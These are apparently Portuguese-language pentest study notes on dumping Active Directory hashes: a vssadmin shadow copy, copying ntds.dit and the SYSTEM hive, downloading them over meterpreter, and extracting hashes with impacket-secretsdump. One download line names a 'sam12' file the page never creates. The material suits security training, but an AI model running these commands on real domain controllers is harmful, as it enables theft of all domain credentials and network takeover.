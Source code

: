 <h1 align="center">Obetendo Hashes em sistemas Servidores com Active Directory</h1>
<hr>

```ad-question
title:Oque eh AD ?
Quando o Windows Server ele possui o AD ele centraliza varias contas de usuarios , grupos de usuarios entao pode criar varios departamentos dentro da empresa com varias contas e diversos tipos de permissoes e tudo isso eh centralizado no AD.Entao se voce usar as tecnicas mencionadas ate agora pra pegasr o SAM e o SYSTEM , voce vai obter o hash normalmente do Windows Server Local e nao das credenciais ou das contas de usuarios que estao no AD.

Pra voce conseguir obter isso e extrair essas informacoes do AD, voce precisa acessar o NTDS.DIT entao muda um pouco essa estrutura.Tambem vamos aprender uma outra tecnica que extrai essas informacoes sem ser pelos registros do windows, servindo tambem para sistemas modernos quando voce nao conseguir salvar pelo registro do windows voce pode utilizar essa tecnica que a gente vai aprender.
```


Quando a gente fala de Windows Server com AD instalado a gente vai ter um  diretorio diferente  em `C:\Windows\NTDS` dentro desse diretorio vai ter um arquivo chamado <span style='color:var(--mk-color-teal)'>ntds.dit</span> ele eh o responsavel por armazenar  as informacoes do <span style='color:var(--mk-color-teal)'>AD</span> incluindo os hashes dos usuarios.

O problema eh que se a gente tentar copiar , baixar ou qualquer outra coisa vai nos retornar um erro dizendo que o ja esta em processo , ou seja ele eh um arquivo protegido assim como o SAM normal eh protegido , nao conseguimos acessar ele assim diretamente.

Oque a gente pode usar uma outra tecnica tambem valida para sistemas modernos, oque a gente vai fazer eh utilizar o <span style='color:var(--mk-color-green)'>vssadmin</span> um utilitario que vem com o Windows para fazer uma copia sombra dos volumes que tem no windows , entao vamos fazer essa copia desse arquivo ntds.dit

meterpreter>```sh
C:\>vssadmin create shadow /for=c:
```

Quando fazemos isso , basicamente estamos clonando todo nossa raiz `C:` , mas agora quando acessarmos o diretorio, estaremos dentro da raiz da copia e nao do sistema em execucao (original) . Uma vez dentro , agora podemos copiar os arquivos .

```sh
C:\>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds-copy.dit

C:\>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\system c:\system12  
```

Agora baixamos simplesmente com meterpreter

```sh
meterpreter>download sam12
meterpreter> download system12
meterpreter> download ntds-copy.dit
```

Utilizamos o impacket agora:

```sh
impacket-secretsdump -sam sam12 -system system12 LOCAL
```

Mas isso pegariamos somente as credenciais do administrador da conta local

Se quiser pegarmos as informacoes do AD , ao inves de usarmos o SAM , a gente utiliza o `ntds` e passa o arquivo `ntds-copy.dit`

```sh
impacket-secretsdump -ntds ntds-copy.dit -system system12 LOCAL
```
